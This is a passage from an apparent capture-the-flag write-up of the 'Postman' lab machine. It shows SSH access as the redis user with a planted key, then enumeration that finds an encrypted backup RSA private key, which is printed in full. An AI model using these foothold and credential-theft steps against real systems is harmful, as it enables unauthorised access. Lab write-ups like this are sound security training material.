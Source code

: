 As we were successful at uploading temp.txt, let's try to authenticate through SSH using the private key we created.
```
root@kali:~/Documents/HTB-Labs/Postman# ssh -i id_rsa redis@postman.htb
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
redis@Postman:~$ 
```

AND we have access to the system as the redis user (shown above). After doing some further enumeration, we found there is another user account in this system, Matt, and also a "backup" SSH private key which probably belongs to this user as there is no other account that can run a shell or is allowed to login. Let's take a look at this private key and copy it to our system.
```
redis@Postman:~$ cd /opt/
redis@Postman:/opt$ ls
id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
redis@Postman:/opt$ exit
logout
Connection to postman.htb closed.
```
